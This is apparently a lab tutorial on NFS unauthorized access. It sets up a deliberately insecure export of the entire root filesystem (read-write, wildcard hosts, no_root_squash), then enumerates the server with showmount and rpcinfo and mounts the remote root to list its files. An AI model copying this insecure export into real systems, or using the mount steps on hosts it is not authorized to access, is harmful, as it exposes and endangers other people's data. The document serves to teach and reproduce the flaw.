

# Unauthorized Access Vulnerability in NFS

## Vulnerability Description

NFS (Network File System) is a network file system that allows sharing of files across different network hosts. When the NFS server is not properly configured or lacks access control mechanisms, there may be an unauthorized access vulnerability. Attackers can use this vulnerability to access files and data on the affected host, and even modify or delete sensitive information.

## Environment Setup

```
# Install nfs service
yum install nfs-utils.x86_64 -y

# Start the service
systemctl start nfs-server.service

# Set up auto-start
systemctl enable rpcbind.service
systemctl enable nfs-server.service

# Configure nfs
vim /etc/exports

/ *(rw,sync,no_root_squash)

# Start sharing
exportfs -r
```

## Vulnerability Exploitation

View sharing

```
[root@localhost tmp]# showmount -e
Export list for localhost.localdomain:
/ *
```

Client mount command

```
mkdir /tmp/test
mount -t nfs 192.168.32.183:/ /tmp/test
```

Scan nfs

```
[root@localhost tmp]# rpcinfo -p 192.168.32.183
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  20048  mountd
    100005    1   tcp  20048  mountd
    100005    2   udp  20048  mountd
    100024    1   udp  38880  status
    100005    2   tcp  20048  mountd
    100024    1   tcp  60551  status
    100005    3   udp  20048  mountd
    100005    3   tcp  20048  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100227    3   udp   2049  nfs_acl
    100021    1   udp  48592  nlockmgr
    100021    3   udp  48592  nlockmgr
    100021    4   udp  48592  nlockmgr
    100021    1   tcp  42350  nlockmgr
    100021    3   tcp  42350  nlockmgr
    100021    4   tcp  42350  nlockmgr
```

View the mounted directory, all the files under the / directory will appear

```
ls /tmp/test/
```

